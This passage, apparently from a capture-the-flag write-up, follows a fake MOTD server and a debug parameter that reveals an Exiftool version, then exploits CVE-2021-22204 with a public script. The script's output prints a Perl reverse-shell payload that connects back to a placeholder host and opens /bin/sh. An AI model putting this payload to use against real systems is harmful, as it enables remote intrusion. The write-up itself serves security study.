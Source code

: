 ```python
                print(f"Error: {e}")
            finally:
                conn.close()

if __name__ == "__main__":
    start_fake_server()
```

Launching the fake server, the site successfully fetches the MOTD as needed.

![]({{ page.img_path }}c57afc717bed453ca2a9d509f42be3b7.png)

---

## The Debug Parameter and Favicon Handling

Re-sending the request with the `debug` parameter results in a server error:

![]({{ page.img_path }}ba4189fda16141d790d1205b33f5633c.png)

It turns out the server expects a favicon image (base64-encoded). Adding a valid base64 favicon to the response makes the debug view work.

![]({{ page.img_path }}7dd0ee2205074d91a2dc3e7e450ce154.png)

A new HTML comment appears:

```
<!-- Exiftool Version: 12.23, Taille du fichier: 27260 -->
```

This is suspicious—why reveal the Exiftool version? A quick search reveals [CVE-2021-22204](https://nvd.nist.gov/vuln/detail/CVE-2021-22204), a critical RCE affecting this Exiftool version.

---

## Exiftool RCE Exploitation (CVE-2021-22204)

The vulnerability allows arbitrary code execution through a crafted image file. Public exploit scripts exist, it creates an exploit image embedding a reverse shell payload:

```
python3 exploit.py -s YOUR_IP 4444 -i sanic.jpg
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(4444,inet_aton('YOUR_IP')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```
